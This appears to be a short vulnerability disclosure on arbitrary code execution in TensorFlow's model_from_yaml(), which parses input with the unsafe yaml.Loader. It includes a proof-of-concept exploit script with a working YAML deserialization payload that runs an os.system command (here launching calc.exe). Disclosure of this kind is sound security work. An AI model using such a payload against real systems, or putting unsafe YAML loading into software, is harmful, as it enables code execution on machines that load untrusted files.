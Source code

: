 # Description

`TensorFlow` is an end-to-end open source platform for machine learning. It has a comprehensive, flexible ecosystem of tools, libraries, and community resources that lets researchers push the state-of-the-art in ML and developers easily build and deploy ML-powered applications. It is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`model_from_yaml()` function parses a yaml model configuration file and returns a model instance. It uses the vulnerable `yaml.Loader` which causes code execution.

# Proof of Concept

Installation
```bash
pip install tensorflow
```

Run `exploit.py`
```python
#!/usr/bin/env python3

from tensorflow.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('calc.exe')"
'''

models.model_from_yaml(payload)
```
